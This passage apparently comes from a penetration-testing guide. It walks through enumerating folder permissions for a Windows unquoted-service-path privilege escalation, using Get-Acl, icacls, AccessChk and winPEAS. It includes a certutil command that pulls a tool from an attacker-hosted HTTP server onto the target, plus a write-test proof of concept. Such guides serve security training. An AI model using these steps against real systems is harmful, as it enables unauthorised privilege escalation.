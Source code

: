 ### **ENUMERATING SERVICE WITH GET-ACL (POWERSHELL)**

1.  Get-Acl is a built-in cmdlet in PowerShell and comes by default with Windows PowerShell. You do not need to install any additional modules to use it.  
    `https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.4`  
    
    ![](../../../../img/Windows-Environment/78.png)

    **NOTE:** we can use the following command to enumerate the folder permissions
    
2.  We can see that Get-Acl doesn’t explicitly say “Modify” for C:\\ like icacls does. Instead, it provides an "Access Mask Format", where the numbers represent specific permissions, with one of them essentially being the numerical representation for Modify.  
    `Get-Acl -Path C:\ | Format-List`  
    
    ![](../../../../img/Windows-Environment/79.png)
    
3.  Numerical value -1610612736 represents Read and Execute permissions.  
    `Get-Acl -Path "C:\Program Files" | Format-List`  
    
    ![](../../../../img/Windows-Environment/80.png)

    
4.  And here we found that BUILTIN\\Users have FullControl on C:\\Program Files\\Unquoted Path Service.  
    `Get-Acl -Path "C:\Program Files\Unquoted Path Service" | Format-List`

    ![](../../../../img/Windows-Environment/81.png)

    

### **ENUMERATING SERVICE WITH ICALCS (CMD)**

1.  To verify permissions with icacls, it's important to understand the permissions for each directory.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.

    ![](../../../../img/Windows-Environment/82.png)
    
2.  Administrators and SYSTEM have Full Control, and Authenticated Users can create folders but not files.  
    `icacls C:\`

    ![](../../../../img/Windows-Environment/83.png)
    
3.  TrustedInstaller has Full Control, SYSTEM and Administrators have Modify and Full Control, and Users have Read and Execute permissions.  
    `icacls "C:\Program Files"`

    ![](../../../../img/Windows-Environment/84.png)
    
4.  Users have Full Control SYSTEM, and Administrators have Full Control with inherited permissions.  
    `icacls "C:\Program Files\Unquoted Path Service"`

    ![](../../../../img/Windows-Environment/85.png)
    
5.  All users have Read & Execute permissions, SYSTEM, and Administrators have inherited Full Control, CREATOR OWNER has inherited Full Control  
    `icacls "C:\Program Files\Unquoted Path Service\Common Files"`

    ![](../../../../img/Windows-Environment/86.png)
    
6.  Our POC shows that moving an EXE file to C:\\, C:\\Program Files, or C:\\Program Files\\Unquoted Path Service\\Common Files is blocked, but it succeeds in C:\\Program Files\\Unquoted Path Service\\.

    ![](../../../../img/Windows-Environment/87.png)

    

### **ENUMERATING SERVICE PERMISSION WITH ACCESSCHK**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/88.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/89.png)
 

    **NOTE:** With accesschk now on the target system, we can use the following command to enumerate the folder permissions
    
3.  The output from AccessChk shows our permissions on C: It indicates that we have write (W) access, but it is restricted to creating folders only (FILE_ADD_SUBDIRECTORY).  
    `.\accesschk64.exe -wvud "C:\" -accepteula`

    ![](../../../../img/Windows-Environment/90.png)

    
4.  accesschk64.exe shows that NT AUTHORITY\\SYSTEM and BUILTIN\\Administrators have extensive permissions,  
    while a standard user has no write permissions.  
    `.\accesschk64.exe -wvud "C:\Program Files" -accepteula`

    ![](../../../../img/Windows-Environment/91.png)

    
5.  finally All users, including standard users, have full write permissions in C:\\Program Files\\Unquoted Path Service.  
    `.\accesschk64.exe -wvud "C:\Program Files\Unquoted Path Service" -accepteula`

    ![](../../../../img/Windows-Environment/92.png)    

### **ENUMERATING SERVICE WITH WINPEAS**

1.  When we used winPEAS in the Hunting Section, we found an unquoted service path in the “Service Information” section.

    ![](../../../../img/Windows-Environment/93.png)


2.  we can scroll down through the output to the “Application Information” section and then check under the “Installed Applications” sub-section. If we can exploit this service, we will identify which folder in the unquoted service path has write permissions.

    ![](../../../../img/Windows-Environment/94.png)

??? info "NOTE"

    If we do not find a writable folder in this section associated with the unquoted service path, we likely won’t be able to exploit this service.